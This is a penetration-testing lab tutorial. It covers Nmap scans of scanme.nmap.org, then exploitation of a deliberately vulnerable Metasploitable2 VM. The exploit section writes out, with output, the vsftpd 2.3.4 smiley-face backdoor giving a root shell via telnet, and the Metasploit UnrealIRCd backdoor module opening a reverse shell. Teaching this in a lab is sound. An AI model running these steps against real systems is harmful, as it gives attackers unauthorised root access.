


# Recognition and Exploit lab
In this lab, you will learn how to perform a network scanning and how to use tools to
exploit known vulnerabilities.

## Requirements
* Kali Linux
* Virtual box (or any hypervisor)

## Nmap
Nmap (aka network map) is a tool used to discover host and services in a host.

### Explore Nmap

You can use Kali Linux in a virtual machine for the purpose of this lab. Scan the following site: scanme.nmap.org

Note: This site has been developed by Nmap for the purpose of scanning. Never scan any site, system, or network without prior permission from the owner.

#### Task 1 
Nmap comes pre-installed in Kali Linux. Just open a terminal, type “nmap scanme.nmap.org” without the inverted commas. This will initiate a scan of the target and will attempt to determine which ports are open and what services are open on these ports.


As we can see from the scan results, there are 4 ports open, and there are different services running on each port. The scan we just performed, however, is a very basic scan and will only scan the top 1000 ports for basic information. In the next step, we will run a more advanced scan.


#### Task 2
In this step, we will be scanning the same target, scanme.nmap.org, but with a more advanced scan. Let’s say we want to determine the versions for the services running on each port, so that we can determine if they are out of date and potentially vulnerable to exploitation. We also want to determine the operating system of the webserver running the target site. We will run the following scan to determine this information:

Oops! You must be root before doing this type of scan. Type “sudo” and  re-enter nmap command with desired parameters. The line in the terminal will be like the following:
```sh
sudo nmap -v -sT -sV -O scanme.nmap.org
```
The results from our scan show us the exact versions of software running on each open port. Note, if there was a firewall protecting this webserver, we may be unable to see this information. We can also determine with relatively high accuracy the version of the operating system running on the web server.


An easier way to perform a full scan on a target is to use the -A flag, which will scan a target using the -sS, -sV, and -O flags.

## Exploiting a real machine

You will lean about metasploit: an exploit database ready to run.

### Setting up a target machine
In this lab, we will use **metasploitable2**: a vulnerable Linux Machine with some 
services on it. Download it [here](https://sourceforge.net/projects/metasploitable/files/latest/download)
and extract it in a folder.

Now you will need to import it in virtual box.

Open virtualbox and create a new virtual machine, choose no iso and set type to `Ubuntu (64-bit)`.
Now, give some resources and go to disk creation and choose `Use an existing disk`.
Add the `.vmdk` file and start the VM.

More details about metasploitable2 can be found [here](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/)


### Exploit the machine

#### Scan the machine
First of all, scan the target machine to find out what services and ports are 
available. You can use nmap command:

```sh 
sudo nmap -v -sT -sV -O <ip-target>
```

#### Exploit FTP
On port 21, Metasploitable2 runs vsftpd, a popular FTP server. This particular version contains a backdoor that was slipped into the source code by an unknown intruder. The backdoor was quickly identified and removed, but not before quite a few people downloaded it. If a username is sent that ends in the sequence :) [ a happy face ], the backdoored version will open a listening shell on port 6200. We can demonstrate this with telnet or use the Metasploit Framework module to automatically exploit it:

```sh 
root@ubuntu:~# telnet 192.168.99.131 21
Trying 192.168.99.131...
Connected to 192.168.99.131.
Escape character is '^]'.
220 (vsFTPd 2.3.4)
user backdoored:)
331 Please specify the password.
pass invalid
^]
telnet> quit
Connection closed.
                       
root@ubuntu:~# telnet 192.168.99.131 6200
Trying 192.168.99.131...
Connected to 192.168.99.131.
Escape character is '^]'.
id;
uid=0(root) gid=0(root)
```


#### Exploit IRC
On port 6667, Metasploitable2 runs the UnreaIRCD IRC daemon. This version contains a backdoor that went unnoticed for months - triggered by sending the letters "AB" following by a system command to the server on any listening port. Metasploit has a module to exploit this in order to gain an interactive shell, as shown below.

```sh
msfconsole
 
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf  exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.99.131
msf  exploit(unreal_ircd_3281_backdoor) > exploit
 
[*] Started reverse double handler
[*] Connected to 192.168.99.131:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 8bMUYsfmGvOLHBxe;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "8bMUYsfmGvOLHBxe\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.99.128:4444 -> 192.168.99.131:60257) at 2012-05-31 21:53:59 -0700

                       
id
uid=0(root) gid=0(root)
```
